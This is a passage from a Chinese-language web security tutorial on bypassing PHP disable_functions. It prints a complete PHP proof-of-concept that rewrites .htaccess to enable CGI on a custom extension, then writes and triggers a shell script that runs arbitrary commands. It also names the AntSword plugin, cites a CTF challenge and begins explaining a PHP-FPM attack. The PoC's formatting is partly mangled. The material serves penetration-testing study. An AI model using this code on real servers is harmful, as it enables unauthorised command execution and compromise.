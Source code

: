 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDsatiaErraJX5P1fKOzy6rRpibL1HzMg7t1NicAWIpLI43uUGCKV1hzicEA/640?wx_fmt=png)image-20210210112421440

给出一个 POC 脚本：

```
<?php$cmd = "ls /"; //command to be executed$shellfile = "#!/bin/bashn"; //using a shellscript$shellfile .= "echo -ne "Content-Type: text/html\n\n"n"; //header is needed, otherwise a 500 error is thrown when there is output$shellfile .= "$cmd"; //executing $cmdfunction checkEnabled($text,$condition,$yes,$no) //this surely can be shorter{    echo "$text: " . ($condition ? $yes : $no) . "<br>n";}if (!isset($_GET['checked'])){    @file_put_contents('.htaccess', "nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked}else{    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?    $writable = is_writable('.'); //current dir writable?    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");        checkEnabled("Is writable",$writable,"Yes","No");        checkEnabled("htaccess working",$htaccess,"Yes","No");    if(!($modcgi && $writable && $htaccess))    {        echo "Error. All of the above must be true for the script to work!"; //abort if not    }    else    {        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGInAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx        echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script    }}?>
```

在蚁剑中有该绕过 disable_functions 的插件：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDdaMibzqMZ1nW2mslp8nHLplcmvUjDVbaSmoNLOvKibm0ibiatUiavVyEwhA/640?wx_fmt=png)image-20210210110924903

点击开始按钮后，成功之后会创建一个新的虚拟终端，在这个新的虚拟终端中即可执行命令了。

[[De1CTF2020]check in](https://github.com/De1ta-team/De1CTF2020/tree/master/writeup/web/check in) 这道题利用的便是这个思路，常见于文件上传中。

通过攻击 PHP-FPM
------------

**使用条件**

•Linux 操作系统 •PHP-FPM• 存在可写的目录，需要上传 `.so` 文件

### 原理简述

既然是利用 PHP-FPM，我们首先需要了解一下什么是 PHP-FPM，研究过 apache 或者 nginx 的人都知道，早期的 Web 服务器负责处理全部请求，其接收到请求，读取文件，然后传输过去。换句话说，早期的 Web 服务器只处理 Html 等静态 Web 资源。

但是随着技术发展，出现了像 PHP 等动态语言来丰富 Web，形成动态 Web 资源，这时 Web 服务器就处理不了了，那就交给 PHP 解释器来处理吧！交给 PHP 解释器处理很好，但是，PHP 解释器该如何与 Web 服务器进行通信呢？为了解决不同的语言解释器（如 php、python 解释器）与 Web 服务器的通信，于是出现了 CGI 协议。只要你按照 CGI 协议去编写程序，就能实现语言解释器与 Web 服务器的通信。如 PHP-CGI 程序。

其实，在上一节中我们已经了解了 CGI 以及 Apache Mod CGI 方面的知识了，下面我们再来继续补充一下。

#### Fast-CGI
